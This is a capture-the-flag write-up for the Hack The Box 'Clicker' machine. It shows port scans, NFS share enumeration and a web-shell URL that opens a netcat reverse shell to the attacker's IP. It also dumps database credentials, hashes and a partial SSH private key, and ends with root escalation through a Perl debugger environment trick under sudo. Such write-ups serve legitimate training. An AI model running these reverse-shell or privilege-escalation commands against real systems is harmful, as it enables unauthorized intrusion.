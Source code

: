 #+TITLE: Clicker HTB Writup
#+AUTHOR: MattiaCossu zProAle

* Enumeration
#+BEGIN_SRC bash
  nmap Clicker.htb 
  Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:41 EDT
  Nmap scan report for Clicker.htb (10.10.11.232)
  Host is up (0.034s latency).
  rDNS record for 10.10.11.232: clicker.htb
  Not shown: 996 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  111/tcp  open  rpcbind
  2049/tcp open  nfs

  Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
#+END_SRC

#+BEGIN_SRC bash
  rustscan -a Clicker.htb --ulimit 5000 -- -sV -sC  
  .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
  | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
  | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
  `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
  The Modern Day Port Scanner.
  ________________________________________
  : https://discord.gg/GFrQsGy           :
  : https://github.com/RustScan/RustScan :
   --------------------------------------
  😵 https://admin.tryhackme.com

  [~] The config file is expected to be at "/home/kali/.rustscan.toml"
  [~] Automatically increasing ulimit value to 5000.
  Open 10.10.11.232:22
  Open 10.10.11.232:80
  Open 10.10.11.232:111
  Open 10.10.11.232:2049
  Open 10.10.11.232:36955
  Open 10.10.11.232:39001
  Open 10.10.11.232:43777
  Open 10.10.11.232:52497
  Open 10.10.11.232:56045
  [~] Starting Script(s)
  [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

  [~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:40 EDT
  NSE: Loaded 156 scripts for scanning.
  NSE: Script Pre-scanning.
  NSE: Starting runlevel 1 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  NSE: Starting runlevel 2 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  NSE: Starting runlevel 3 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  Initiating Ping Scan at 16:40
  Scanning 10.10.11.232 [2 ports]
  Completed Ping Scan at 16:40, 0.03s elapsed (1 total hosts)
  Initiating Connect Scan at 16:40
  Scanning clicker.htb (10.10.11.232) [9 ports]
  Discovered open port 2049/tcp on 10.10.11.232
  Discovered open port 80/tcp on 10.10.11.232
  Discovered open port 111/tcp on 10.10.11.232
  Discovered open port 36955/tcp on 10.10.11.232
  Discovered open port 52497/tcp on 10.10.11.232
  Discovered open port 56045/tcp on 10.10.11.232
  Discovered open port 43777/tcp on 10.10.11.232
  Discovered open port 22/tcp on 10.10.11.232
  Discovered open port 39001/tcp on 10.10.11.232
  Completed Connect Scan at 16:40, 0.03s elapsed (9 total ports)
  Initiating Service scan at 16:40
  Scanning 9 services on clicker.htb (10.10.11.232)
  Completed Service scan at 16:40, 6.33s elapsed (9 services on 1 host)
  NSE: Script scanning 10.10.11.232.
  NSE: Starting runlevel 1 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 1.24s elapsed
  NSE: Starting runlevel 2 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.17s elapsed
  NSE: Starting runlevel 3 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  Nmap scan report for clicker.htb (10.10.11.232)
  Host is up, received syn-ack (0.032s latency).
  Scanned at 2023-10-24 16:40:42 EDT for 8s

  PORT      STATE SERVICE  REASON  VERSION
  22/tcp    open  ssh      syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
  | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO8nDXVOrF/vxCNHYMVULY8wShEwVH5Hy3Bs9s9o/WCwsV52AV5K8pMvcQ9E7JzxrXkUOgIV4I+8hI0iNLGXTVY=
  |   256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
  |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjDCjag/Rh72Z4zXCLADSXbGjSPTH8LtkbgATATvbzv
  80/tcp    open  http     syn-ack Apache httpd 2.4.52 ((Ubuntu))
  |_http-server-header: Apache/2.4.52 (Ubuntu)
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: Clicker - The Game
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  111/tcp   open  rpcbind  syn-ack 2-4 (RPC #100000)
  | rpcinfo: 
  |   program version    port/proto  service
  |   100000  2,3,4        111/tcp   rpcbind
  |   100000  2,3,4        111/udp   rpcbind
  |   100000  3,4          111/tcp6  rpcbind
  |   100000  3,4          111/udp6  rpcbind
  |   100003  3,4         2049/tcp   nfs
  |   100003  3,4         2049/tcp6  nfs
  |   100005  1,2,3      45875/udp   mountd
  |   100005  1,2,3      49803/tcp6  mountd
  |   100005  1,2,3      50284/udp6  mountd
  |   100005  1,2,3      56045/tcp   mountd
  |   100021  1,3,4      33723/tcp6  nlockmgr
  |   100021  1,3,4      36955/tcp   nlockmgr
  |   100021  1,3,4      43287/udp   nlockmgr
  |   100021  1,3,4      58410/udp6  nlockmgr
  |   100024  1          41710/udp6  status
  |   100024  1          43896/udp   status
  |   100024  1          49553/tcp6  status
  |   100024  1          52497/tcp   status
  |   100227  3           2049/tcp   nfs_acl
  |_  100227  3           2049/tcp6  nfs_acl
  2049/tcp  open  nfs_acl  syn-ack 3 (RPC #100227)
  36955/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)
  39001/tcp open  mountd   syn-ack 1-3 (RPC #100005)
  43777/tcp open  mountd   syn-ack 1-3 (RPC #100005)
  52497/tcp open  status   syn-ack 1 (RPC #100024)
  56045/tcp open  mountd   syn-ack 1-3 (RPC #100005)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  NSE: Script Post-scanning.
  NSE: Starting runlevel 1 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  NSE: Starting runlevel 2 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  NSE: Starting runlevel 3 (of 3) scan.
  Initiating NSE at 16:40
  Completed NSE at 16:40, 0.00s elapsed
  Read data files from: /usr/bin/../share/nmap
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.91 seconds
#+END_SRC
** 111/2049 NFS - RPC
#+BEGIN_SRC bash
  sudo nmap -sSUC -p111 clicker.htb
  [sudo] password for kali: 
  Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:43 EDT
  Nmap scan report for clicker.htb (10.10.11.232)
  Host is up (0.032s latency).

  PORT    STATE SERVICE
  111/tcp open  rpcbind
      | rpcinfo: 
      |   program version    port/proto  service
      |   100000  2,3,4        111/tcp   rpcbind
      |   100000  2,3,4        111/udp   rpcbind
      |   100000  3,4          111/tcp6  rpcbind
      |   100000  3,4          111/udp6  rpcbind
      |   100003  3,4         2049/tcp   nfs
      |   100003  3,4         2049/tcp6  nfs
      |   100005  1,2,3      45875/udp   mountd
      |   100005  1,2,3      49803/tcp6  mountd
      |   100005  1,2,3      50284/udp6  mountd
      |   100005  1,2,3      56045/tcp   mountd
      |   100021  1,3,4      33723/tcp6  nlockmgr
      |   100021  1,3,4      36955/tcp   nlockmgr
      |   100021  1,3,4      43287/udp   nlockmgr
      |   100021  1,3,4      58410/udp6  nlockmgr
      |   100024  1          41710/udp6  status
      |   100024  1          43896/udp   status
      |   100024  1          49553/tcp6  status
      |   100024  1          52497/tcp   status
      |   100227  3           2049/tcp   nfs_acl
      |_  100227  3           2049/tcp6  nfs_acl
      111/udp open  rpcbind
      | rpcinfo: 
      |   program version    port/proto  service
      |   100000  2,3,4        111/tcp   rpcbind
      |   100000  2,3,4        111/udp   rpcbind
      |   100000  3,4          111/tcp6  rpcbind
      |   100000  3,4          111/udp6  rpcbind
      |   100003  3,4         2049/tcp   nfs
      |   100003  3,4         2049/tcp6  nfs
      |   100005  1,2,3      45875/udp   mountd
      |   100005  1,2,3      49803/tcp6  mountd
      |   100005  1,2,3      50284/udp6  mountd
      |   100005  1,2,3      56045/tcp   mountd
      |   100021  1,3,4      33723/tcp6  nlockmgr
      |   100021  1,3,4      36955/tcp   nlockmgr
      |   100021  1,3,4      43287/udp   nlockmgr
      |   100021  1,3,4      58410/udp6  nlockmgr
      |   100024  1          41710/udp6  status
      |   100024  1          43896/udp   status
      |   100024  1          49553/tcp6  status
      |   100024  1          52497/tcp   status
      |   100227  3           2049/tcp   nfs_acl
      |_  100227  3           2049/tcp6  nfs_acl

      Nmap done: 1 IP address (1 host up) scanned in 14.51 seconds
#+END_SRC

#+BEGIN_SRC bash
  msf6 auxiliary(scanner/nfs/nfsmount) > exploit 

  [+] 10.10.11.232:111      - 10.10.11.232 Mountable NFS Export: /mnt/backups [*]
  [*] 10.10.11.232:111      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
#+END_SRC

#+BEGIN_SRC bash
  showmount -e clicker.htb
  Export list for clicker.htb:
  /mnt/backups *
#+END_SRC

#+BEGIN_SRC bash
  sudo mount -t nfs clicker.htb:/mnt/backups /tmp -o nolock
#+END_SRC

http://clicker.htb/exports/top_players_spj3zjw7.php?cmd=busybox%20nc%2010.10.14.11%204444%20-e%20%2Fbin%2Fbash

#+BEGIN_SRC bash
  (remote) www-data@clicker:/var/www/clicker.htb$ cat db_utils.php 
  <?php
  session_start();

  $db_server="localhost";
  $db_username="clicker_db_user";
  $db_password="clicker_db_password";
  $db_name="clicker";
  $mysqli = new mysqli($db_server, $db_username, $db_password, $db_name);
  <STEP>
#+END_SRC

#+BEGIN_SRC bash
  (remote) www-data@clicker:/var/www/clicker.htb$ mysql -u clicker_db_user -p
  Enter password: 
  Welcome to the MySQL monitor.  Commands end with ; or \g.
  Your MySQL connection id is 368
  Server version: 8.0.34-0ubuntu0.22.04.1 (Ubuntu)

  Copyright (c) 2000, 2023, Oracle and/or its affiliates.

  Oracle is a registered trademark of Oracle Corporation and/or its
  affiliates. Other names may be trademarks of their respective
  owners.

  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

  mysql> 
#+END_SRC

#+BEGIN_SRC bash
  mysql> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | clicker            |
  | information_schema |
  | performance_schema |
  +--------------------+
  3 rows in set (0.01 sec)

  mysql> use clicker
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A

  Database changed
  mysql> show tables;
  +-------------------+
  | Tables_in_clicker |
  +-------------------+
  | players           |
  +-------------------+
  1 row in set (0.01 sec)

  mysql> 
#+END_SRC

#+BEGIN_SRC bash
  mysql> select * from players
      -> ;
  +---------------+---------------+------------------------------------------------------------------+-------+--------------------+-----------+
  | username      | nickname      | password                                                         | role  | clicks             | level     |
  +---------------+---------------+------------------------------------------------------------------+-------+--------------------+-----------+
  | admin         | admin         | ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82 | Admin | 999999999999999999 | 999999999 |
  | ButtonLover99 | ButtonLover99 | 55d1d58e17361fe78a61a96847b0e0226a0bc1a4e38a7b167c10b5cf513ca81f | User  |           10000000 |       100 |
  | Paol          | Paol          | bff439c136463a07dac48e50b31a322a4538d1fac26bfb5fd3c48f57a17dabd3 | User  |            2776354 |        75 |
  | Th3Br0        | Th3Br0        | 3185684ff9fd84f65a6c3037c3214ff4ebdd0e205b6acea97136d23407940c01 | User  |           87947322 |         1 |
  +---------------+---------------+------------------------------------------------------------------+-------+--------------------+-----------+
  4 rows in set (0.00 sec)
#+END_SRC

#+BEGIN_SRC bash
  (remote) www-data@clicker:/opt$ cd m
  manage/     monitor.sh  
  (remote) www-data@clicker:/opt$ cd manage/
  (remote) www-data@clicker:/opt/manage$ ls
  README.txt  execute_query
  (remote) www-data@clicker:/opt/manage$ cat README.txt 
  Web application Management

  Use the binary to execute the following task:
	  - 1: Creates the database structure and adds user admin
	  - 2: Creates fake players (better not tell anyone)
	  - 3: Resets the admin password
	  - 4: Deletes all users except the admin
	                                                          
#+END_SRC

#+BEGIN_SRC bash
  (remote) www-data@clicker:/opt/manage$ ./execute_query 5 ../.ssh/id_rsa
  mysql: [Warning] Using a password on the command line interface can be insecure.
  --------------
  -----BEGIN OPENSSH PRIVATE KEY---
  b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
  NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
  J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
  kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
  Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
  nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
  pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
  30OgtpL6QhO2eLiZVrIXOHiPzW49emv4xhuoPF3E/5CA6akeQbbGAppTi+EBG9Lhr04c9E
  2uCSLPiZqHiViArcUbbXxWMX2NPSJzDsQ4xeYqFtAAAFiO2Fee3thXntAAAAB3NzaC1yc2
  EAAAGBALOHkGlh3uOYhkongx262gGIEHTMJTBj7edCpjFAL1oAFds5T/P9WCf7Us4KEfRZ
  KPCNVKS5xwi89hM7G/zKywnvJxuU5Wya60OB3Kp0uEyjew2e11tG7qd2sstZAAGfVKLenq
  f3pDPBPu/9/VWeX3tRcGY+IkSiPoPwVUBXJbICtNgefeBpDs99z/2c7Xto1U4Jst/obTxO
  TMt9YtpV4el1n3qYgToxvpkA4NjskgKYWztUmzIrKMD9WknsSjIeyK+iJT7p7sN5f5bsr0
  RgzfH8rpk3iF1QHT3zqjKkzlRAqO4QKGPrmFin4h8Tl+H6Pv3zcHXH3LQVJqa+TccdBgh9
  cC5x7G8fv6AZD88bs3fgXBjWaexT/HJ/nRBc9rcvC7NDK/l1uaH4rxMK9/nt9DoLaS+kIT
  tni4mVayFzh4j81uPXpr+MYbqDxdxP+QgOmpHkG2xgKaU4vhARvS4a9OHPRNrgkiz4mah4
  lYgK3FG218VjF9jT0icw7EOMXmKhbQAAAAMBAAEAAAGACLYPP83L7uc7vOVl609hvKlJgy
  FUvKBcrtgBEGq44XkXlmeVhZVJbcc4IV9Dt8OLxQBWlxecnMPufMhld0Kvz2+XSjNTXo21
  1LS8bFj1iGJ2WhbXBErQ0bdkvZE3+twsUyrSL/xIL2q1DxgX7sucfnNZLNze9M2akvRabq
#+END_SRC

#+BEGIN_SRC bash
  chmod 600 id_rsa
#+END_SRC

#+BEGIN_SRC bash
  ssh -i id_rsa jack@clicker.htb
  Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

   ,* Documentation:  https://help.ubuntu.com
   ,* Management:     https://landscape.canonical.com
   ,* Support:        https://ubuntu.com/advantage

    System information as of Tue Oct 24 04:14:42 PM UTC 2023

    System load:           0.0
    Usage of /:            53.6% of 5.77GB
    Memory usage:          20%
    Swap usage:            0%
    Processes:             241
    Users logged in:       0
    IPv4 address for eth0: 10.10.11.232
    IPv6 address for eth0: dead:beef::250:56ff:feb9:6bf5


  Expanded Security Maintenance for Applications is not enabled.

  0 updates can be applied immediately.

  Enable ESM Apps to receive additional future security updates.
  See https://ubuntu.com/esm or run: sudo pro status


  The list of available updates is more than a week old.
  To check for new updates run: sudo apt update

  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.

  jack@clicker:~$ 
#+END_SRC

#+BEGIN_SRC bash
  #!/usr/bin/perl -w
  # $Id: /xmltwig/trunk/tools/xml_pp/xml_pp 32 2008-01-18T13:11:52.128782Z mrodrigu  $
  use strict;

  use XML::Twig;
  use File::Temp qw/tempfile/;
  use File::Basename qw/dirname/;

  my @styles= XML::Twig->_pretty_print_styles; # from XML::Twig
  my $styles= join '|', @styles;               # for usage
  my %styles= map { $_ => 1} @styles;          # to check option

  my $DEFAULT_STYLE= 'indented';

  my $USAGE= "usage: $0 [-v] [-i<extension>] [-s ($styles)] [-p <tag(s)>] [-e <encoding>] [-l] [-f <file>] [<files>]";

  # because of the -i.bak option I don't think I can use one of the core
  # option processing modules, so it's custom handling and no clusterization :--(
  <STEP>
#+END_SRC

#+BEGIN_SRC bash
  sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
  Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	  (Maybe you meant system() when you said exec()?)
	
#+END_SRC

#+BEGIN_SRC bash
  bash -p
#+END_SRC

